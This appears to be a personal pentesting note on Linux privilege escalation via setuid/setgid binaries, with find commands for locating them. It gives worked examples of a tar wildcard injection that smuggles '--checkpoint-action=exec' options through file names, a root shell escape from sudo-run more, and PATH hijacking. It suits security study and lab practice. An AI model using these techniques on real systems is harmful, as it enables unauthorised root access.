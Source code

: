 ```yaml
---
id: exploit_setuid_binaries
aliases:
  - setuid
  - sgid
tags:
  - privilege_escalation
  - linux
---
```


## Usage:
The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the s or S permission in the file user or group owner permissions (i.e. ---s--s---). When the file permissions features an uppercase S instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights. 
> [!WARNING]
> - Just like capabilities, setuid and setgid bits are unset when a file is copied with cp or when its content changes.
> - Some partitions of the UNIX file system can be mounted with the nosuid option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like /tmp or/run. Searching the /proc/mounts pseudo-file for a nosuid flag can help find these partitions.

## Find SETUID:
- `sudo -l`
- find:
```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
  ```

## Exploit SETUID:
### Living off the land:
> [!WARNING]
> Check if the binary is in [GTFOBins](https://gtfobins.github.io/gtfobins/) for exploitation techniques
#### Examples:
  ##### Using [[shell_wildcards|wildcards vulnerability]] and tar  
  - Imagine a scenario where a script backups a directory (that we can control) on the server each hour using tar like this :
   
       ```bash
       !/bin/bash
       mkdir -p /backups/
       cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
       ``` 

  - To use these options in our exploit, we just need to create these two files in our directory, as well as the exploit.sh file, containing the command we want to run when we trigger the execution :
      ```bash 
      echo '' > '--checkpoint=1'
      echo '' > '--checkpoint-action=exec=sh exploit.sh'

      $ ls -lha 
      total 88K
      drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
      drwxrwxrwt 89 user user 76K avril 27 22:31 ..
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file1
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file2
      -rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
      -rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
      -rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh   
       ```
- Use the following ![[user_to_sudo]] exploit 


##### Using `more` and `sudo` :
  - Let's take an example, with this sudo configuration :
      ```bash
      $ sudo -l
      [sudo] password for user: 
      Matching Defaults entries for user on PC1:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
      ```
  - User user may run the following commands on PC1:
     `(ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log`

  - In this case user can run the more command, but only to read a specific log file /var/log/apache2/access.log as root without password (NOPASSWD flag) :
     `sudo -u root /usr/bin/more /var/log/apache2/access.log`

  - You can assume this would be safe right ? Unfortunately, it's not. The more command has various useful options, one of them is !. When you're in more and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type !/bin/sh in more, you will open a shell as the owner of the parent more process !:

     ```bash
      $ sudo -u root /usr/bin/more /var/log/apache2/access.log
      File content line 1
      File content line 2
      ...
      File content line n
      ------------------------
      !/bin/sh
      # 
      uid=0(root) gid=0(root) groups=0(root)
      #
      ```

### Relative path calls:
  1. Usage:
    - The SETUID can be exploited if it makes calls via relative starting_path
  2. Discovery:
    - It can be discovered with `strace` command
  3. Exploitation:
    - Create an exploit and name it the same as the command called by the SETUID
    - Put the exploit path in the $PATH env variable
    - Now when the SRYUID will make the call it will search for it in PATH and execute the exploit
